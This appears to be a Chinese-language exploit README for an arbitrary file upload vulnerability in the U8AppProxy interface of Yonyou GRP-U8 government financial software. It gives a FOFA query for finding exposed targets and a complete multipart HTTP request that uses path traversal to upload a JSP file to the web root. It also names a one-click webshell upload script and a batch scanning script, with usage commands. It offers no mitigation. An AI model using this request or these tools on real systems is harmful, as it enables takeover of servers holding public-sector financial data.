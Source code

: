 ## 0x00 漏洞介绍

    用友GRP-U8R10行政事业财务管理软件是用友公司专注于电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域专业的财务管理软件。用友 GRP-U8 U8AppProxy接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限。
    
## 0x01 漏洞复现

   FOFA搜索title="用友GRP-U8行政事业内控管理软件"
   
   上传londly到跟目录
   
   ```
   POST /U8AppProxy?gnid=myinfo&id=saveheader&zydm=../../hello_U8 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=635F2271089E7A7E66F3F84824553DEE
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 01 Feb 2016 08:01:00 GMT
If-None-Match: W/"5732-1454313660000"
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip
Content-Length: 194

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="file"; filename="londly.jsp"
Content-Type: image/png

<% out.println("0xold");%>
--59229605f98b8cf290a7b8908b34616b--
   ```
   
访问 http://xxxxxxxxxxxx/londly.jsp  

## 0x02 python利用脚本

       一键上传webshell脚本
        
        python.exe londly.py -u http://xxxx
        
        
        批量漏洞检测脚本
        
        python.exe nccheck.py -f url.txt
        
  
   
